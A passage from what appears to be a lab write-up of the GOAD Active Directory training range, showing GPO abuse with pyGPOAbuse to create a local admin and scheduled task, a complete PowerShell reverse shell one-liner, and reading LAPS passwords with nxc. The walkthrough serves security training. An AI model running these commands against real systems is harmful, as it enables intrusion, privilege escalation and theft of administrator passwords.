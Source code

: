 ```
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4"
```

- If we take a look in the windows GUI we will see the schedule task created :

- If we wait few minutes or if we run a `gpudate /force` we will see the new local admin user

- Now let’s try to get a powershell reverseshell

```
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4" -powershell -command "\$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);\$s = \$c.GetStream();[byte[]]\$b = 0..65535\|%{0};while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){    \$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i);    \$sb = (iex \$d 2>&1 \| Out-String );    \$sb = ([text.encoding]::ASCII).GetBytes(\$sb + 'ps> ');    \$s.Write(\$sb,0,\$sb.Length);    \$s.Flush()};\$c.Close()" -taskname "MyTask" -description "don't worry"
```

- And a few moments later we get the powershell reverseshell

> pyGPOAbuse is changing the GPO without going back ! Do not use in production or at your own risk and do not forget to cleanup after

- Cleanup

## Read Laps password

- To read LAPS password, the easy way is with the cme module
```
nxc ldap 192.168.56.12 -d essos.local -u jorah.mormont -p 'H0nnor!' --module laps
```
![screenshot](pics/read_laps.png)


- Works like a charm :)

## Resources:

- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
- [https://www.thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse)
- [https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

Next time, this will be the last blog post of the GOAD writeup series. And it will be on Trusts exploitation ([Goad pwning part12](https://mayfly277.github.io/posts/GOADv2-pwning-part12/))